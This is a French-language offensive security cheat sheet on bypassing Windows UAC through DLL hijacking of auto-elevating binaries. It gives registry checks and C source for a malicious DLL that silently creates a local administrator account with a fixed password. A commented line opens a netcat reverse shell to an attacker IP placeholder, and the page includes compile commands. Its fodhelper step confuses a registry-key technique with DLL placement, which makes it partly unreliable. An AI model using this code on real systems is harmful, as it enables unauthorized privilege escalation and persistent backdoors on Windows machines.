 # 05-Contournement de l'UAC (User Account Control)

L'UAC (User Account Control) est un mécanisme de sécurité qui empêche les modifications non autorisées du système. Le contourner permet d'exécuter des actions avec des privilèges élevés sans invite UAC.

## Vérification des Paramètres UAC
```powershell
# Vérifier si l'UAC est activé
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
# Valeur 1 : Activé, Valeur 0 : Désactivé

# Vérifier le comportement de l'invite pour les administrateurs
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
# Valeurs courantes :
# 0 : Élever sans invite (UAC désactivé pour les admins)
# 1 : Demander les identifiants sur le bureau sécurisé
# 2 : Demander le consentement sur le bureau sécurisé (Défaut)
# 3 : Demander les identifiants
# 4 : Demander le consentement
# 5 : Demander le consentement pour les binaires non-Windows

# Vérifier le niveau de notification UAC (via l'interface graphique ou des outils)
# HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\PromptOnSecureDesktop
```

## Techniques de Contournement UAC
De nombreuses techniques existent, souvent spécifiques à des versions/builds de Windows. Le projet UACME (https://github.com/hfiref0x/UACME) est une référence.

### Exemple de Contournement UAC (DLL Hijacking sur un processus auto-élevé)
Cette technique repose sur le détournement d'une DLL chargée par un processus de confiance qui s'auto-élève sans invite UAC.

**Contexte (Exemple pour Windows 10 build 14393, peut varier)**
Certains exécutables signés par Microsoft dans `C:\Windows\System32` ou `C:\Windows\SysWOW64` s'auto-élèvent. Si l'un d'eux tente de charger une DLL depuis un emplacement contrôlable par l'utilisateur (ou un emplacement où une DLL peut être plantée), cela peut être exploité.

**Étapes générales :**
1.  **Identifier un binaire auto-élevé vulnérable :**
    Utiliser des outils comme Process Monitor pour observer les tentatives de chargement de DLL par des processus qui s'élèvent automatiquement (par exemple, `SystemPropertiesAdvanced.exe`, `eventvwr.exe`, `fodhelper.exe` dans certaines versions). Rechercher les `NAME NOT FOUND` pour les DLL.

2.  **Créer une DLL malveillante :**
    La DLL effectuera les actions privilégiées souhaitées (par exemple, lancer un reverse shell, ajouter un utilisateur admin).
    ```c
    // uac_bypass_dll.c
    #include <windows.h>
    #include <stdlib.h>

    BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
        if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
            system("cmd.exe /c \"net user uacbypass PassW0rd1! /add && net localgroup administrators uacbypass /add\"");
            // Ou lancer un reverse shell
            // system("c:\\temp\\nc.exe <IP_ATTAQUANT> <PORT> -e cmd.exe");
        }
        return TRUE;
    }
    ```
    Compiler (par exemple, `x86_64-w64-mingw32-gcc uac_bypass_dll.c -shared -o target.dll`). Le nom `target.dll` doit correspondre à la DLL que le binaire auto-élevé tente de charger.

3.  **Placer la DLL malveillante :**
    Placer la DLL dans un emplacement où le binaire auto-élevé la chargera. Cela peut être un répertoire spécifique (par exemple, `C:\Windows\System32\Tasks\`, ou un répertoire temporaire si le binaire le recherche là).
    Par exemple, pour certaines techniques avec `fodhelper.exe`, la DLL est placée dans un chemin de registre spécifique sous `HKCU:\Software\Classes\ms-settings\shell\open\command`.

4.  **Exécuter le binaire de confiance :**
    Lancer le binaire qui s'auto-élève et qui est vulnérable au détournement de DLL.
    ```powershell
    # Exemple (conceptuel, dépend de la vulnérabilité spécifique)
    # C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
    # ou
    # fodhelper.exe
    ```

**Outils et Références :**
*   **UACME :** https://github.com/hfiref0x/UACME (Contient de nombreuses méthodes)
*   **Metasploit :** Possède plusieurs modules `exploit/windows/local/bypassuac_*`

**Exemple de commande (conceptuelle, tirée de `03-other-stuff-not-finished.md`) :**
```powershell
# Vérifier la version de Windows
[environment]::OSVersion.Version

# Exemple pour Windows 10 build 14393 (méthode spécifique non détaillée ici)
# 1. Créer une DLL malveillante
# 2. La placer dans un dossier spécifique (ex: WindowsApps, ou via manipulation de registre)
# 3. Exécuter un binaire de confiance qui s'auto-élève et charge la DLL
# C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe # (Ceci est un exemple de binaire, pas une technique complète)
```
Il est crucial de trouver une technique de bypass UAC qui correspond à la version et au niveau de patch de Windows ciblés. Les méthodes changent fréquemment car Microsoft corrige ces failles. 